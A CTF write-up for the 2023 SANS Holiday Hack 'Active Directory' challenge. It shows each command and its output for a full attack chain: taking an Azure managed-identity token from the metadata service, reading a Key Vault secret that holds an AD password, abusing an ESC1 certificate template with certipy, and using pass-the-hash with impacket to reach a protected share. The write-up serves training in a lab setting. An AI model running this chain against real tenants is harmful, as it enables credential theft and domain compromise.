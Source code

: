 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## 	Active Directory
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

### Hints
#### Useful Tools
*From: Ribb Bonbowford*  
It looks like Alabaster's SSH account has a couple of tools installed which might prove useful.
#### Misconfiguration ADventures
*From: Alabaster Snowball*  
Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

### Solution
I went back as `alabaster` on the `ssh-server-vm` from [Certificate SSHenanigans]() and realized the reason for the `impacket` folder. I started poking around with Azure APIs a little more, discovering an Azure Key Vault resource:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?api-version=2021-04-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}}]}
```
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-10-30T13:17:02.532Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-10-30T13:17:02.532Z"},"properties":{"sku":{"family":"A","name":"Standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[],"enabledForDeployment":false,"enabledForDiskEncryption":false,"enabledForTemplateDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"enableRbacAuthorization":true,"vaultUri":"https://northpole-it-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-11-12T01:47:13.059Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-11-12T01:50:52.742Z"},"properties":{"sku":{"family":"A","name":"standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"0bc7ae9d-292d-4742-8830-68d12469d759","permissions":{"keys":["all"],"secrets":["all"],"certificates":["all"],"storage":["all"]}},{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"1b202351-8c85-46f1-81f8-5528e92eb7ce","permissions":{"secrets":["get"]}}],"enabledForDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"vaultUri":"https://northpole-ssh-certs-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}}],"nextLink":"https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01&$skiptoken=bm9ydGhwb2xlLXJnMXxub3J0aHBvbGUtc3NoLWNlcnRzLWt2"}
```

Switching token for the resource https://vault.azure.net, I was able to get the content of the Vault:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4
{"value":[{"id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}],"nextLink":null}
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4
{"value":"Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru","id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}
```

The secret contains the following Powershell script with hardcoded credentials in clear text:
```cmd
Import-Module ActiveDirectory;
$UserName = "elfy";
$UserDomain = "northpole.local";
$UserUPN = "$UserName@$UserDomain";
$Password = ConvertTo-SecureString "J4`ufC49/J4766" -AsPlainText -Force;
$DCIP = "10.0.0.53";
New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname "" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru
```

I then ran certipy to obtain vulnerable certificate configurations from AD:
```bash
alabaster@ssh-server-vm:~/impacket$ certipy find -u elfy@northpole.local -p 'J4`ufC49/J4766' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20231217214704_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231217214704_Certipy.txt'
[*] Saved JSON output to '20231217214704_Certipy.json'
```

Looking at the output from `certipy`, I observed that the `NorthPoleUsers` template was vulnerable:
```bash
  # Output removed to shorten report
  "Certificate Templates": {
    "0": {
      "Template Name": "NorthPoleUsers",
      "Display Name": "NorthPoleUsers",
      "Certificate Authorities": ["northpole-npdc01-CA"],
      # Output removed to shorten report
      "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject, and template allows client authentication"
      }
    }
  },
```

Based on that, I started the exploitation:
```bash
alabaster@ssh-server-vm:~/impacket$ lookupsid.py 'northpole.local/elfy:J4`ufC49/J4766@10.0.0.53'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.0.0.53
[*] StringBinding ncacn_np:10.0.0.53[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1338289034-4095587347-713453443
# Output removed to shorten report
1103: NORTHPOLE\researchers (SidTypeGroup)
1104: NORTHPOLE\elfy (SidTypeUser)
1105: NORTHPOLE\wombleycube (SidTypeUser)
# Output removed to shorten report
```
```bash
alabaster@ssh-server-vm:~/impacket$ certipy auth -pfx 'wombleycube.pfx' -username 'wombleycube' -domain 'northpole.local' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```
```bash
alabaster@ssh-server-vm:~/impacket$ smbclient.py -dc-ip 10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 -target-ip 10.0.0.53 northpole.local/wombleycube@npdc01.northpole.local
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
# use FileShare
# cd super_secret_research
# ls
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 .
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 ..
-rw-rw-rw-        231  Sun Dec 17 01:15:12 2023 InstructionsForEnteringSatelliteGroundStation.txt
```

The filename `InstructionsForEnteringSatelliteGroundStation.txt` is the flag and once downloaded I could get the content which will be useful for the Speaker Access:
```
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```


---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## [Holiday Hack Orientation](/01%20-%20Holiday%20Hack%20Orientation/README.md)
## [Snowball Fight](/02%20-%20Snowball%20Fight/README.md)
## [Linux 101](/03%20-%20Linux%20101/README.md)
## [Reportinator](/04%20-%20Reportinator/README.md)
## [Azure 101](/05%20-%20Azure%20101/README.md)
## [Luggage Lock](/06%20-%20Luggage%20Lock/README.md)
## [Linux PrivEsc](/07%20-%20Linux%20PrivEsc/README.md)
## [Faster Lock Combination](/08%20-%20Faster%20Lock%20Combination/README.md)
## [Game Cartridges: Vol 1](/09%20-%20Game%20Cartridges%3A%20Vol%201/README.md)
## [Game Cartridges: Vol 2](/10%20-%20Game%20Cartridges%3A%20Vol%202/README.md)
## [Game Cartridges: Vol 3](/11%20-%20Game%20Cartridges%3A%20Vol%203/README.md)
## [Na'an](/12%20-%20Na%27an/README.md)
## [KQL Kraken Hunt](/13%20-%20KQL%20Kraken%20Hunt/README.md)
## [Phish Detection Agency](/14%20-%20Phish%20Detection%20Agency/README.md)
## [Hashcat](/15%20-%20Hashcat/README.md)
## [Elf Hunt](/16%20-%20Elf%20Hunt/README.md)
## [Certificate SSHenanigans](/17%20-%20Certificate%20SSHenanigans/README.md)
## [The Captain's Comms](/18%20-%20The%20Captain%27s%20Comms/README.md)
---
## [Space Island Door Access Speaker](/20%20-%20Space%20Island%20Door%20Access%20Speaker/README.md)
## [Camera Access](/21%20-%20Camera%20Access/README.md)
## [Missile Diversion](/22%20-%20Missile%20Diversion/README.md)
## [BONUS! Fishing Guide](/23%20-%20BONUS%21%20Fishing%20Guide/README.md)
## [BONUS! Fishing Mastery](/24%20-%20BONUS%21%20Fishing%20Mastery/README.md)
## [Conclusions](/README.md#conclusions)

